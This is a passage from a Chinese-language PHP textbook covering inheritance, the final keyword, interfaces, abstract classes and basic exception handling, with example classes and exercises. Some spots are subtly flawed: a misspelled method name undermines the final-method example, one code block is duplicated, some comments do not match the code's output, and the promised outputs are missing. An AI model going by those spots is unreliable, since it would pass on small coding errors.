然后，创建一个类型为 `Vehicle` 的对象（`vehicle1`），并使用初始信息，接着使用 `display()` 方法和 setter 来修改所创建车辆的信息。

### 第 16 章

## PHP 中的继承

继承是面向对象编程的基本概念之一。它允许一个类从另一个类（称为父类或基类）继承属性和方法。在 PHP 中，继承提供了一种强大的机制来复用代码和构建应用程序结构。

本章将重点探讨 PHP 中的继承，详细考察其语法、优势和最佳实践。我们将学习如何创建类层级、访问继承的成员，以及重新定义方法以满足子类的特定需求。此外，我们还将讨论在软件开发中使用继承时的重要注意事项。

理解继承对于掌握 PHP 面向对象编程以及设计更模块化、可扩展和可维护的应用程序至关重要。因此，让我们深入 PHP 继承的世界，探索它如何丰富我们的开发实践。

#### 面向对象编程中继承的定义

继承是面向对象编程（OOP）中的一个关键概念，它允许一个类继承另一个类（称为其父类或基类）的特征（属性和方法）。通过继承，子类可以复用并扩展其父类的行为，从而促进代码复用和应用程序的逻辑结构化。

在 PHP 中，继承使用 `extends` 关键字实现，它允许子类通过继承父类的公有和受保护成员来扩展父类。这样，子类就可以像在自己的类定义中本地定义的那样，访问其父类的属性和方法。


让我们用一个简单的例子来说明继承的概念：

让我们创建一个名为 `Person.php` 的新文件，其中定义一个同名类，即 `Person`：

```php
<?php

// 父类

class Person {

    protected $name;

    protected $age;

    // 构造函数

    public function __construct($name, $age) {

        $this->name = $name;

        $this->age = $age;

    }

    // 显示人员详细信息的方法

    public function displayDetails() {

        echo "Name: " . $this->name . ", Age: " . $this->age . " years";

    }

}
```


这段代码定义了一个名为 `Person` 的类。该类有两个由 `protected` 关键字定义的属性：`$name` 和 `$age`，分别代表人的姓名和年龄。`protected` 关键字是面向对象编程中的一种可见性级别，用于定义对类的属性和方法的访问权限。当一个成员（属性或方法）被声明为 `protected` 时，它可以在定义它的类内部访问，也可以在继承自此类的派生类（子类）中访问，但不能在这些类之外访问。

具体来说，这意味着 `protected` 成员不能在声明它们的类外部直接访问，但可以在继承自该父类的子类中使用。这提供了额外的封装性和安全性，因为 `protected` 成员不会暴露在类层级之外，但可以被子类用来扩展或专门化父类的行为。

`Person` 类的构造函数被定义用于在创建 `Person` 类型的新对象时初始化这些属性。它接受两个参数 `$name` 和 `$age`，并使用它们来初始化相应的对象属性。

`Person` 类还有一个公共的 `displayDetails()` 方法，它使用连接运算符 (`.`) 形成一个包含这些详细信息的字符串，以显示人的详细信息，如姓名和年龄。

现在让我们创建一个名为 `Employee.php` 的新文件，在其中定义一个同名类，该类继承自 `Person` 类：

```php
<?php

require_once 'Person.php';

class Employee extends Person {

    private $salary;

    public function __construct($name, $age, $salary) {

        parent::__construct($name, $age);

        $this->salary = $salary;

    }

    public function displayEmployeeDetails() {

        parent::displayDetails();

        echo ", Salary: $ " . $this->salary;

    }

}
```

这段代码定义了一个名为 "Employee" 的类，它扩展了父类 "Person"。以下是代码各部分的详细解释：

- `require_once 'Person.php';`：此行包含 "Person.php" 文件，该文件包含父类 "Person"。这使得 "Employee" 类能够扩展 "Person" 类。
- `class Employee extends Person {...}`：此类声明使用 `extends` 关键字，将 "Employee" 类创建为 "Person" 类的子类。这意味着 "Employee" 类将继承 "Person" 类的属性和方法。
- `private $salary;`：这是 "Employee" 类特有的一个新私有属性的声明。它存储员工的薪水。
- `public function __construct($name, $age, $salary) {...}`：这是 "Employee" 类的构造函数。它接受三个参数：员工的姓名、年龄和薪水。`parent::__construct()` 函数使用姓名和年龄调用父类 "Person" 的构造函数。请注意双冒号运算符 (`::`) 的使用，用于调用父构造函数。然后，员工的薪水使用作为参数传递的值进行初始化。
- `public function displayEmployeeDetails() {...}`：这是一个添加的方法，用于通过使用父类 "Person" 的 `displayDetails()` 方法来显示员工的详细信息，然后添加薪水的显示。`parent::displayDetails()` 方法调用父类 "Person" 的 `displayDetails()` 方法以显示员工的姓名和年龄，然后在显示中添加员工的薪水。

总之，这段代码创建了一个 "Employee" 类，它从 "Person" 类继承功能，并添加了一个额外的属性来存储员工的薪水。构造函数初始化所有必要的属性，而 `displayEmployeeDetails()` 方法显示员工的详细信息，包括他们的薪水。

要评估继承的功能，请将以下代码插入 `index.php` 文件中。

```php
<?php

require_once 'Person.php';

require_once 'Employee.php';

// 实例化 Employee 类

$employee1 = new Employee("John Dupont", 35, 50000);

// 显示员工详细信息

$employee1->displayEmployeeDetails();

?>
```

这段代码首先使用 `require_once` 指令包含 `Person.php` 和 `Employee.php` 类文件。有必要包含这些类才能使用它们。

接下来，使用提供的详细信息创建 `Employee` 类的一个实例：姓名、年龄和薪水。最后，在 `$employee1` 对象上调用 `displayEmployeeDetails()` 方法以显示员工的详细信息，包括姓名、年龄和薪水。

执行此代码将产生以下结果：


#### 重新定义方法

方法重新定义，也称为方法替换或方法重载，是面向对象编程中继承的一项特性，它允许子类为其父类中已定义的方法提供特定的实现。这意味着子类可以提供继承方法的自己的实现，当在子类对象上调用该方法时，该实现将替换父类的实现。

在 PHP 中，通过在子类中声明一个与父类具有相同签名（名称和参数）的方法来重新定义方法。当在子类对象上调用此方法时，执行的是子类的实现，即使该方法已从父类继承。

这允许子类添加或修改从父类继承的行为，同时为类用户保持相同的接口（方法签名）。这有利于代码复用，并使对象行为能够适应子类的特定需求。

例如，"Person" 类的 `displayDetails()` 方法可以在 Employee 类中重新定义，如下所示：

```php
<?php

require_once 'Person.php';

class Employee extends Person {

    private $salary;

    public function __construct($name, $age, $salary) {

        parent::__construct($name, $age);

        $this->salary = $salary;

    }

    public function displayDetails() {

        parent::displayDetails();

        echo ", Salary: $ " . $this->salary;

    }

}

?>
```

在这个 Employee 类中，Person 类的 `displayDetails()` 方法被重新定义以包含员工的薪水。当我们在 Employee 类的对象上调用此方法时，将使用 Employee 类中特定的重新定义，覆盖从 Person 类继承的方法。换句话说，当我们在从 Employee 类创建的对象上调用 `displayDetails()` 方法时，执行的是在 Employee 类中定义的该方法版本，而不是在 Person 类中定义的版本。

作为继承过程一部分的方法重新定义的优势在于，能够自定义继承方法的行为以适应子类的特定需求。这使得代码具有更大的模块性和可扩展性，因为子类可以在不更改父类代码的情况下扩展或修改继承方法的行为。这样，每个类都可以拥有自己的特定功能，同时受益于父类中定义的通用特性，这鼓励了代码复用并便于维护。

请注意，如果父类中的方法被声明为 `public` 或 `protected`，子类始终可以重新定义父类的方法。这允许子类自定义继承方法的行为以适应其特定需求。但是，如果父类方法被声明为 `private`，则不能在子类中重新定义它，因为它在父类之外不可访问。


然而，如果你希望防止某个方法在子类中被重新定义，只需在定义该方法时使用 `final` 关键字即可。事实上，当一个方法在父类中被声明为 final 时，这意味着它不能在继承自此父类的子类中被重新定义。这保证了该方法的行为不会在子类中被修改，从而在代码设计中确保了一定的稳定性和可预测性。

例如，如果 `displayDetails()` 方法是用 `final` 关键字声明的，你就不能重新定义它：

```php
final public function dispalyDetails() {

 echo "Name: " . $this->name . ", Age: " . $this->age . " years";

 }
```

在这种情况下，如果你在 `Employee` 类中重新定义此方法并运行 `index.php` 文件，你将得到一个错误，提示 `Employee` 类中的某个方法试图重新定义一个已在 `Person` 类中声明为 final 的方法。


#### 连续继承

连续继承，也称为级联继承，是一种面向对象编程概念，指一个类不仅继承其直接父类的属性和方法，还继承该父类的所有父类的属性和方法，从而形成一个继承链。例如，类 D 可能继承自类 C，类 C 又继承自类 B，类 B 又继承自类 A。

##### 连续继承的目标

**代码复用性**：允许复用父类和祖父类中已编写的代码，这促进了模块化和代码维护。

**功能扩展**：允许通过添加新属性和方法来扩展类的功能，同时继承父类的功能。

**实际示例**：

让我们看一个例子，其中有 `Animal`、`Mammal` 和 `Dog` 类。`Animal` 类是基类，`Mammal` 类继承自 `Animal` 类，而 `Dog` 类又继承自 `Mammal` 类。这种关系构成了连续继承。

以下是代码示例：

**Animal.php**：

```php
<?php

 // 父类

 class Animal {

 public function eat() {

 echo "The animal eats. ";

 }

 }
```

**Mammal.php**：

```php
<?php

 require_once "Animal.php";

 // 继承自 Animal 的类

 class Mammal extends Animal {

 public function breastfeed() {

 echo "The mammal nurses. ";

 }

 }
```

**Dog.php**：

```php
<?php

 require_once "Animal.php";

 require_once "Mammal.php";

 // 继承自 Mammal 的类

 class Dog extends Mammal {

 public function bark() {

 echo "The dog barks. ";

 }

 }
```

**index.php**：

```php
<?php

require_once 'Animal.php';

require_once 'Mammal.php';

require_once 'Dog.php';

// 使用类

$dog = new Dog();

$dog->eat(); // 将显示：The animal is eating.

$dog->breastfeed(); // 将显示：The mammal is breastfeeding.

$dog->bark(); // 将显示：The dog is barking.

require_once 'Animal.php';

require_once 'Mammal.php';

require_once 'Dog.php';

// 使用类

$dog = new Dog();

$dog->eat(); // 将显示：The animal is eating.

$dog->breastfeed(); // 将显示：The mammal is breastfeeding.

$dog->bark(); // 将显示：The dog is barking.

?>
```

在本例中，`Dog` 类分别从其父类 `Mammal` 和 `Animal` 继承了 `Eat()` 和 `Breastfeed()` 方法。这演示了连续继承的实际应用。当执行 `index.php` 时，你将得到以下结果：


##### 继承深度

在面向对象编程中，通常没有具体限制你可以连续继承类的次数。然而，重要的是要考虑你的系统设计，并避免过深的继承深度，因为这会使代码难以理解、维护和扩展。

过深的继承深度可能导致复杂性增加、类之间强依赖以及过于僵化的层级结构，这会使代码变得脆弱且难以修改。

简而言之，虽然你可以在技术上根据需要进行任意次数的连续继承，但最好设计你的系统以促进清晰度、灵活性和易维护性。

要停止连续继承，可以在类或方法的声明中使用 `final` 关键字。当一个类被声明为 final 时，这意味着它不能被其他类扩展。同样，当你声明一个方法为 final 时，意味着它不能在子类中被重新定义（或重载）。

以下是在 `Mammal` 类中使用 `final` 关键字停止连续继承的方法：

```php
<?php

 require_once "Animal.php";

 // 继承自 Animal 的类

 final class Mammal extends Animal {

 public function breastfeed() {

 echo "The mammal nurses. ";

 }

 }
```

在这段代码中，我们有 `Mammal` 类，它继承自 `Animal` 类。在 `Mammal` 类声明前使用关键字 `final` 意味着该类是 final 的，这意味着它不能被其他类扩展。换句话说，没有任何类可以继承自 `Mammal` 类。

#### 使用继承的目标和优势

在软件设计中使用继承提供了几个关键优势和目标：

**代码复用性**：继承允许复用父类中已实现的代码，从而减少代码重复，促进更高效和模块化的软件设计。

**模块化和结构**：通过继承父类的功能，子类可以按层级组织，便于逻辑结构化和代码维护。

**扩展和定制**：子类可以通过添加新功能或重新定义现有功能来扩展其父类的行为。这允许根据每个子类的特定需求灵活定制对象行为。

**抽象和多态**：正如我们将在后续章节中看到的，继承促进了代表应用程序中通用概念的抽象类层级的创建。通过使用抽象类和接口，继承也促进了多态的实现，即不同类的对象可以被统一处理。

总的来说，这些目标和优势使继承成为在 PHP 和其他面向对象编程语言中设计和实现健壮、可扩展且可维护软件的强大工具。

#### 结论

在本章中，我们深入探讨了面向对象编程中继承的概念。我们了解了类如何从其他类继承属性和方法，以及在 Web 设计中使用继承的优势和目标。

继承在类之间创建了层级关系，子类可以受益于父类的功能，同时扩展或定制其行为。这鼓励了代码复用，减少了冗余，并便于软件维护。

我们还涵盖了方法重新定义、使用 `final` 关键字防止后续继承以及连续继承等高级概念。

通过充分理解继承并适当应用，开发人员可以设计出灵活、模块化和可扩展的软件架构，有效满足开发项目不断变化的需求。

##### 练习 28（接练习 27）：

创建一个继承自 `Vehicle` 类的 `Car` 类，并增加一个 `number_doors` 属性。`Car` 类还应有一个构造函数，该构造函数考虑到这个额外属性。

`Car` 类应具有 `number_doors` 属性的 getter 和 setter，以及一个 `display()` 方法，该方法以字符串形式显示汽车的信息，并调用父类的 `display()` 方法。

然后，创建一个类型为 `Car` 的对象并带有初始信息，使用 `display()` 方法和 setter 来修改汽车的信息。


### 第 17 章：接口与抽象类

在 PHP 面向对象编程的世界里，接口和抽象类在模块化、灵活且可扩展软件的设计中扮演着至关重要的角色。这些概念为定义契约和基础结构提供了强大的机制，使开发者能够创建结构良好、易于维护的类层级结构。

在本章中，我们将深入探讨接口和抽象类，首先从这些概念的清晰定义入手。我们将考察它们的语法、特性和根本区别，以及它们在软件设计中提供的优势。此外，我们将通过具体示例来说明它们在实际场景中的应用，并讨论充分发挥其潜力的最佳实践。本章将为你提供掌握 PHP 中接口和抽象类所需的知识。

#### PHP 接口

PHP 中的接口是用于定义类必须遵守的契约的强大面向对象编程工具。它们提供了一种结构化的方式来声明类必须实现的方法，而无需提供这些方法如何实现的细节。换句话说，接口定义了类 *能做什么*（*what*），而不是 *如何做*（*how*）。

在本节中，我们将深入了解 PHP 中的接口。我们将发现如何声明和使用接口、PHP 中接口的语法、它们可以包含的方法，以及类如何实现这些接口。我们还将探讨在软件设计中使用接口的优势。

接口在创建模块化、灵活且可扩展的代码中起着至关重要的作用。它们的使用保证了系统中类的一致性和合规性，同时促进了类的替换和多态性。让我们更仔细地看看 PHP 中接口的不同侧面。

##### 接口声明与语法

接口使用 `interface` 关键字后跟接口名称来声明。它们提供了一个类必须实现的方法列表。要使用接口，类必须实现接口中定义的所有方法。

声明接口的语法如下：


接口只能包含方法签名，而不能包含方法体。这意味着接口中声明的方法没有函数体，只有方法声明。下面是一个名为 `Connectable` 的接口的代码示例，你可以将其放入一个新的 `Connectable.php` 文件中。

```php
<?php

 // 接口声明

 interface Connectable {

 // 连接方法

 public function connect();

 // 断开连接方法

 public function disconnect();

 }

?>
```

在本例中，我们声明了一个名为 "Connectable" 的接口，它包含两个方法：`connect()` 和 `disconnect()`。该接口定义了一个契约，类在实现这些方法时必须遵守。实现此接口的类必须为这些方法中的每一个提供实现。

请注意，接口名称必须具有描述性，清晰地指示接口的角色或功能。接口名称通常为单数，且通常以大写字母开头，就像类一样。例如：`Connectable`、`Loggable`、`Calculable` 等。

##### 在类中实现接口

要使用接口，一个或多个类可以使用 `implements` 关键字实现一个或多个接口。当一个类实现一个接口时，它必须为接口中定义的所有方法提供具体的定义。

创建一个新的 `Database.php` 文件，并按如下方式实现 `Connectable` 接口：

```php
<?php

 require_once 'Connectable.php';

 class Database implements Connectable {

 public function connect() {

 echo "Database connection established.";

 }

 public function disconnect() {

 echo "Database disconnected.";

 }

 }

?>
```

这段代码定义了一个名为 `Database` 的类，它实现了 `Connectable` 接口。`Connectable` 接口包含两个方法：`connect()` 和 `disconnect()`，所有使用它的类都必须实现这两个方法。

这两个方法都在 `Database` 类中实现了。`connect()` 方法显示一条消息，指示数据库连接已建立，而 `disconnect()` 方法显示一条消息，指示数据库连接已关闭。

简而言之，这个 `Database` 类可用于管理数据库连接，利用 `Connectable` 接口确保所有类以一致的方式实现连接和断开数据库连接所需的方法。

而在 `index.php` 文件中，你可以使用 `Connectable` 接口和 `Database` 类：

```php
<?php

 require_once 'Database.php';

 $database = new Database();

 $database->connect();

 echo "<br>";

 $database->disconnect();

?>
```

这段代码首先引入 `Database.php` 文件，该文件包含我们刚才看到的 `Database` 类的定义。接下来，使用默认构造函数创建 `Database` 类的一个实例。最后，依次调用该实例的 `connect()` 和 `disconnect()` 方法。

这意味着通过调用 `connect()` 方法建立数据库连接，该方法显示一条指示连接已建立的消息。接下来，调用 `disconnect()` 方法关闭连接，该方法显示一条指示连接已关闭的消息。当你运行这段代码时，将得到类似于以下结果的输出：


##### 接口实现与类行为

当我们定义一个 `Person` 接口时，例如，我们建立了一个行为契约，所有实现它的类都必须遵守。如果我们有实现此接口的 `Author`、`Teacher`、`Student` 和 `Admin` 类，这意味着这些类中的每一个都必须为 `Person` 接口中声明的所有方法提供实现。

例如，`Person` 接口可能定义 `getName()`、`getAge()` 和 `introduceYourself()` 等方法，这些对于实现该接口的所有类都是必不可少的。然后，每个具体类都必须为这些方法提供实现，以遵守 `Person` 接口定义的契约。

虽然实现 `Person` 接口的每个类都必须为该接口中声明的所有方法提供实现，但这些实现可以因类而异。每个类可以根据其角色或特定特征拥有自己特定的行为。

例如，`introduceYourself()` 方法对于作者和教师可能会显示不同的介绍，因为他们的角色和属性可能不同。同样，`getRole()` 方法可能会根据人员类型返回不同的值，指示他们是作者、教师、学生、管理员等。

`Person` 接口仅提供一个契约，确保所有实现它的类将拥有某些共同的基本功能。然而，这些功能的具体细节可能因上下文和每种人员类型的预期行为而异。


### 接口的多重使用

在面向对象编程中，通常需要一个类能够实现多个接口，以便从每个接口提供的功能中受益。这种实现多个接口的能力称为“接口的多重使用”。在 PHP 中，一个类可以根据需要实现任意数量的接口，从而使其能够根据所实现的不同接口定义一整套完整的行为。


### 接口的多重使用

接口的多重使用在类设计中提供了更大的灵活性和模块化。这使得不同的功能可以被分离到不同的接口中，从而使代码更具可读性、更易于维护，也更容易扩展。它还促进了代码复用，因为一个类可以通过实现适当的接口在不同的上下文中被使用。

#### 在 PHP 中实现多个接口

要在 PHP 类中实现多个接口，只需在类声明中列出用逗号分隔的接口名称即可。

##### 实现示例

**在 `InterfaceA.php` 中定义 `InterfaceA`**

```php
interface InterfaceA {
    public function methodA();
}
```

**在 `InterfaceB.php` 中定义 `InterfaceB`**

```php
interface InterfaceB {
    public function methodB();
}
```

**在 `InterfaceC.php` 中定义 `InterfaceC`**

```php
interface InterfaceC {
    public function methodC();
}
```

**在 `MyClass.php` 中定义 `MyClass`**

```php
class MyClass implements InterfaceA, InterfaceB, InterfaceC {
    public function methodA() {
        // methodA 实现
    }

    public function methodB() {
        // methodB 实现
    }

    public function methodC() {
        // methodC 实现
    }
}
```

在本例中，`MyClass` 类实现了 `InterfaceA`、`InterfaceB` 和 `InterfaceC`，因此它必须为这些接口中定义的所有方法提供实现。这使得 `MyClass` 可以访问这些接口中定义的功能，并可在需要这些接口之一的任何地方使用。接口的多重使用是创建灵活、模块化类的强大概念，有助于提高面向对象应用程序的健壮性和可维护性。

#### 使用接口的优势

编程中的接口提供了多种优势和功能：

*   **清晰一致的契约**：接口定义了一组类必须实现的方法。这在开发人员之间建立了清晰的契约，指明了有哪些功能可用以及如何使用它们。
*   **灵活性和可扩展性**：接口允许定义不同类可以具体实现的通用行为。这使得代码更灵活、更具可扩展性，因为只需实现新接口即可添加新功能，而无需修改现有类。
*   **代码复用**：接口通过定义多个类可以共享的标准化功能来鼓励代码复用。这促进了模块化设计，并便于代码维护。
*   **依赖契约而非实现**：使用接口允许依赖契约而非具体实现。这促进了软件组件之间的松耦合，使代码更易于测试、维护和更新。
*   **多态性**：接口支持应用多态原则，即不同的类可以通过通用接口统一处理。这允许编写通用代码，并以更抽象的方式操作对象。

总之，接口提供了一种强大的方式来定义软件系统不同部分之间的契约，从而产生更模块化、更灵活且易于扩展的代码。

### 抽象类

抽象类是 PHP 面向对象编程中的一个关键概念。它们允许你定义无法直接实例化的类模型，但这些模型可作为其他继承它们的类的基础。当你希望为某些功能提供基本实现，同时允许派生类（子类）根据其特定需求自定义或扩展这些功能时，会使用抽象类。

#### 声明和使用抽象类

要在 PHP 中声明抽象类，请在 `class` 关键字前使用 `abstract` 关键字。抽象类可以同时包含具体方法（有实现）和抽象方法（无实现）。抽象方法充当“契约”，派生类必须通过提供自己的实现来履行该契约。

##### PHP 中的抽象类语法

下面是一个在 PHP 中声明抽象类的示例：

```php
<?php

abstract class MyAbstractClass {
    // 抽象方法
    abstract public function myAbstractMethod();

    // 具体方法
    public function myConcreteMethod() {
        // 实现
    }
}
```

这段代码演示了名为 `MyAbstractClass` 的抽象类的声明。以下是代码中每部分的含义：

*   类声明前的 `abstract` 关键字表明这是一个抽象类，意味着它不能被直接实例化。
*   `myAbstractMethod()` 方法使用 `abstract` 关键字声明为抽象方法。抽象方法是在抽象类中没有主体（即无实现）的方法。继承此抽象类的类必须为此方法提供自己的实现。
*   `myConcreteMethod()` 方法是一个具体方法，意味着它在抽象类中有实现。与抽象方法不同，具体方法带有实现主体。继承此抽象类的类也将继承此方法及其默认实现，但如果必要，它们可以重新定义它。

简而言之，这个抽象类 `MyAbstractClass` 提供了一个基础，包含一个由子类实现的抽象方法，以及一个可按原样使用或在派生类中按需重新定义的具体方法。

#### 实现抽象类

抽象类不能被直接实例化。要使用它们，你需要创建一个或多个扩展它们的类。具体操作如下：

1.  **定义一个扩展抽象类的具体类**：使用 `extends` 关键字创建一个新类以继承自抽象类。该类必须为父抽象类中定义的所有抽象方法提供实现。
2.  **实现抽象方法**：为父抽象类中定义的每个抽象方法在子类中提供实现。实现的方法必须与父类抽象方法的签名（名称和参数）匹配。
3.  **使用具体类**：一旦具体类实现完毕，你就可以像使用其他任何类一样实例化它并使用其方法。你也可以通过创建子类进一步扩展该具体类，子类将继承其功能。

##### 实际示例

**创建抽象类 `Shape` (`Shape.php`)**

```php
<?php

// 抽象类定义
abstract class Shape {
    abstract public function calculateArea();

    // 具体方法
    public function displayType() {
        echo "This shape is of type: " . get_class($this);
    }
}
```

在这段代码中，我们定义了一个名为 `Shape` 的抽象类。该类包含一个抽象方法 `calculateArea()`，所有扩展此类的子类都必须实现该方法。抽象方法是在抽象类中声明但未实现的方法。每个子类需根据自己的逻辑来实现此方法。

除了抽象方法，`Shape` 类还包含一个名为 `displayType()` 的具体方法。具体方法是在抽象类本身中拥有实现的方法。在本例中，`displayType()` 方法使用 PHP 原生函数 `get_class($this)` 来获取当前对象的类名（类的实例），从而显示形状的类型。

在抽象类中使用具体方法提供了一个默认实现，子类可在必要时使用。这些方法对于所有子类共享的功能或实用函数很有用。

**创建继承自抽象 `Shape` 类的 `Rectangle` 类**

```php
<?php

require_once "Shape.php";

// 定义一个扩展抽象类的具体类
class Rectangle extends Shape {
    private $length;
    private $width;
}
```


```php
public function __construct($length, $width) {
    $this->length = $length;
    $this->width = $width;
}

// 抽象方法 calculSurface 的实现
public function calculateArea() {
    return $this->length * $this->width;
}
```

在这段代码中，我们定义了一个继承自抽象 `Shape` 类的 `Rectangle` 类。这意味着 `Rectangle` 类继承了 `Shape` 类的所有抽象方法，并必须实现它们。

`Rectangle` 类有两个私有属性，`$length` 和 `$width`，分别代表矩形的长和宽。这些属性在类的构造函数中初始化。

`calculateArea()` 方法是在 `Shape` 类中定义的抽象方法。在 `Rectangle` 类中，我们需要为该方法提供具体的实现。在这里，`Rectangle` 类的 `calculateArea()` 方法只是简单地返回长和宽的乘积，以计算矩形的表面积。

简而言之，`Rectangle` 类扩展了抽象 `Shape` 类，实现了抽象的 `calculateArea()` 方法，并为该方法提供了针对矩形特定属性的具体实现。

随后，你可以实例化 `Rectangle` 类并相应地间接使用抽象 `Shape` 类。在 `index.php` 文件中，插入以下代码：

```php
<?php
require_once "Rectangle.php";

// 使用 Rectangle 类
$rectangle1 = new Rectangle(5, 3);
echo "Rectangle area : ".$rectangle1->calculateArea()."<br>";
$rectangle1->displayType();
```

运行此代码时，你将得到以下结果：


##### 抽象类与派生类的行为

在我们拥有抽象类 `Person` 这样的场景中，该类充当一个通用的基础模型，用于表示所有类型人员共享的特征和行为，但它不能被直接实例化。具体的类（如 `Author`、`Teacher`、`Student` 和 `Admin`）扩展抽象类 `Person`，从而继承其属性和方法，同时也拥有定义自己特定属性和行为的能力。

例如，抽象类 `Person` 可以定义诸如姓名、年龄和电子邮件地址等属性，以及像 `introduce()` 这样的方法，以允许每种类型的人以通用方式进行自我介绍。`Author`、`Teacher`、`Student` 和 `Admin` 等子类将继承这些基本属性和方法，但也可以定义特定于其角色或职责的方法，例如作者的 `publishBook()` 或教师的 `teachClass()`。

通过继承抽象类 `Person`，每个子类都受益于一个通用结构，并且当被期望接收 `Person` 实例的方法或函数操作时，可以统一对待。然而，每个子类都拥有通过定义特定于其角色的方法来专门化其行为的灵活性。这使得在软件系统中能够对不同类别的人员进行模块化管理和逻辑组织。


#### 接口与抽象类的区别

接口和抽象类是面向对象编程中的基本概念，但它们具有不同的特征，使其适用于不同的场景和设计需求。以下是接口和抽象类之间的主要区别：

**定义：**

*   **接口：** 接口通过指定类必须实现的方法来定义行为契约，但不提供这些方法的具体实现。
*   **抽象类：** 抽象类可以包含抽象（未实现）方法和具体（已实现）方法，提供结构与行为的组合。

**实现：**

*   **接口：** 类通过提供接口中声明的所有方法的具体定义来实现接口。
*   **抽象类：** 类通过为抽象类中定义的所有抽象方法提供实现来扩展抽象类，同时也能够重新定义或扩展现有的具体方法。

**继承：**

*   **接口：** 一个类可以实现多个接口，从而定义多种行为。
*   **抽象类：** 一个类只能扩展单个抽象类，从而实现更具体的行为专业化。

**灵活性：**

*   **接口：** 接口提供最大的灵活性，允许类实现完全相互独立的行为，从而促进模块化设计。
*   **抽象类：** 抽象类提供的灵活性较低，因为类只能扩展单个抽象类，这使得类与特定的类层级结构联系更紧密。

通过理解接口和抽象类之间这些根本性的区别，开发人员可以选择最适合其应用程序特定需求和软件架构的方法。

#### 结论

在本章中，我们探讨了 PHP 中接口和抽象类的概念，它们是面向对象编程的强大工具。我们学习了如何定义、使用和实现接口，以及如何创建和扩展抽象类。我们还考察了这两种方法的区别，并讨论了它们各自适用的场景。

接口提供了一种在类之间定义灵活行为契约的方式，促进了代码的可组合性和模块化。它们允许在不修改现有类层级结构的情况下为类添加功能，这使得它们在灵活性和兼容性至关重要的情况下特别有用。

另一方面，抽象类提供了一个具有共享行为的通用结构，并允许建立特定的类层级结构。它们提供方法的部分实现，并可作为更专业化派生类的起点。

通过审慎地结合使用接口和抽象类，开发人员可以设计出健壮、灵活且模块化的软件系统，能够适应变化并随着项目需求演进。

### 第 18 章：异常处理

异常处理是任何健壮软件系统的重要组成部分。在编程中，异常是程序执行期间发生的事件，由于异常情况或错误而中断正常的操作流程。异常可能由多种因素引起，例如语法错误、逻辑错误、不可预见的条件或源自外部资源的错误。

在本章中，我们将详细探讨什么是异常处理、为什么它很重要以及如何在 PHP 中实现它。我们将了解与异常相关的基本概念、有效处理异常的最佳实践，以及如何使用 PHP 提供的机制来检测、报告和处理程序中的异常。通过理解如何处理异常，开发人员可以提高应用程序的可靠性、健壮性和安全性，保证更好的用户体验和更好的代码维护性。

#### 异常简介

##### 异常的定义

异常是程序执行期间发生的异常情况或意外条件，它会破坏正常的执行流程。更准确地说，异常表示发生了意外情况，且程序不知道如何处理它。

在 PHP 中，异常由预定义类 `Exception` 或其子类的实例表示。抛出异常时，通常会附带一条描述所发生错误的消息。

异常可能由各种原因引起，例如语法错误、逻辑错误、输入/输出错误、数据库错误，或任何其他阻止程序正常运行的意外条件。


### 异常的正确使用可实现更有效的错误处理，并确保应用程序具有更好的可靠性和健壮性

通过适当地识别和处理异常，开发人员可以创建更稳定、更可靠的应用程序，从而提供更好的用户体验。

#### 异常与错误类型

异常可由程序执行期间遇到的各种类型的错误触发。以下是一些可触发异常的常见错误类型：

**语法错误：** 当代码不符合编程语言的语法规则时，会发生语法错误。例如，拼写错误、分号遗漏或控制结构使用不当均可能导致语法错误。

**逻辑错误：** 当代码因对待解决问题的误解或算法实现不当而无法按预期工作时，会发生逻辑错误。这些错误可能导致意外情况或错误结果。

**运行时错误：** 运行时错误发生在程序执行期间，可能由错误的数据、不可用的资源、硬件问题或不可预见的条件引起。例如，尝试访问不存在的文件或不可用的网络资源时，可能会发生执行错误。

**数据操作错误：** 当数据本身存在问题时，例如数据缺失、不正确或损坏，会发生数据操作错误。例如，如果字符串不代表有效数字，则在将字符串转换为数字时可能会发生错误。

**输入/输出 (I/O) 错误：** 当 I/O 操作（如读写文件、与外设通信或访问外部资源）出现问题时，会发生 I/O 错误。这些错误可能由文件缺失、权限不足或硬件错误等问题引起。

简而言之，异常可由各种类型的错误触发，无论这些错误与代码语法、逻辑、执行、数据操作还是 I/O 操作有关。对这些异常进行适当处理对于保证应用程序的可靠性和稳定性至关重要。

#### 异常管理目标

异常处理的目标是多方面的，主要旨在提高应用程序的可靠性、健壮性和可维护性。以下是使用异常的一些关键目标：

**错误处理：** 异常提供了一种高效且结构化的错误处理机制。它们能够在错误发生时检测并报告错误，从而使其更易于解决。

**提高代码可读性：** 通过使用异常，代码可以被构建为将错误处理与正常执行流程分离。这使得代码更具可读性和可理解性，因为异常处理块可以与主要业务代码分开。

**简化错误处理逻辑：** 异常将业务逻辑与错误处理逻辑分离。这通过将错误处理移至代码的特定部分来简化代码，从而便于维护和扩展。

**错误传播：** 异常可通过应用程序的各个层级进行传播，使错误能够追溯到可被适当处理的位置。这确保了错误在合适的层级得到处理，并避免了执行流程的意外中断。

**集中错误处理：** 通过使用异常，错误可在应用程序的特定部分（如全局异常处理器）进行集中处理。这简化了错误管理，并实现了对问题更好的追踪。

简而言之，异常通过实现高效的错误处理，在创建可靠、健壮的应用程序中发挥着至关重要的作用。它们有助于提高代码质量、可读性、可维护性和应用程序稳定性。

#### 异常的用法

PHP 中的异常处理允许你管理程序执行期间可能出现的错误和异常情况。你可以使用 `throw` 关键字在代码的任何位置抛出异常。

以下是如何在 PHP 中使用异常及相关示例：

请考虑以下代码，你可以将其放在 `index.php` 中，例如：

```php
<?php

function calculateAge($birthYear) {

    $currentYear = date("Y");

    $age = $currentYear - $birthYear;

    if ($age < 0) {

        throw new Exception("Invalid birth year.");

    }

    return $age;

}

try {

    echo calculateAge(2005); // Will display age if birth year is valid

} catch (Exception $e) {

    echo "Error: " . $e->getMessage();

}
```

此代码定义了一个 `calculateAge()` 函数，该函数接受出生年份作为参数，并通过从当前年份中减去出生年份来返回计算出的年龄。如果计算出的年龄为负数，这将表明出生年份无效，则会抛出一个带有消息 "Invalid birth year." 的 `Exception`。

接下来，代码使用 `try-catch` 块来调用 `calculateAge()` 函数并传入特定的出生年份（本例中为 2005）。如果出生年份有效且 `calculateAge()` 函数成功返回计算出的年龄，则会显示该年龄。然而，如果在函数执行期间引发异常（例如，由于出生年份无效），`catch` 块将捕获该异常并显示相应的错误消息。

由于本例中指定的出生年份 (2005) 有效，代码将通过从当前年份减去出生年份来返回年龄。

然而，如果在 `calculateAge()` 函数参数中指定了无效的出生年份，例如 `calculateAge(2040)`，代码将生成一个异常。

显示的错误消息将类似于以下内容：


